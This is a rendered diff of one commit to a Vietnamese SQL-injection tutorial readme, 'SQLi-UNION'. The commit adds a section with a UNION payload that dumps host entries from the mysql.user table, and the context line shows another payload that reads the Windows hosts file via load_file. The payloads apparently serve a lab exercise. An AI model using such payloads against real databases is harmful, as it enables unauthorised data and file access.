

Before and after one commit to bluecrypt47/SQLi-UNION, a Markdown page: readme.md, the part around the change. Drawn GitHub-style; pictures changed too: img/15.png (added); blank space fills up the shorter version.

Commit message:
add image hosts

```diff
--- a/readme.md
+++ b/readme.md
@@ -68,4 +68,8 @@ Mục lục:
 => `C:\xampp\tmp`
 ![Hinh 14.](~/../img/14.png)
 
+3. File hosts
+`' UNION SELECT (SELECT group_concat(HOST) FROM mysql.user),NULL,3,4,5,6,7,8,9,NULL,NULL,NULL,13,14  #`
+![Hinh 15.](~/../img/15.png)
+
 `' UNION SELECT load_file("Windows\System32\Drivers\etc\hosts"),NULL,3,4,5,6,7,8,9,NULL,NULL,NULL,13,14 #`
```
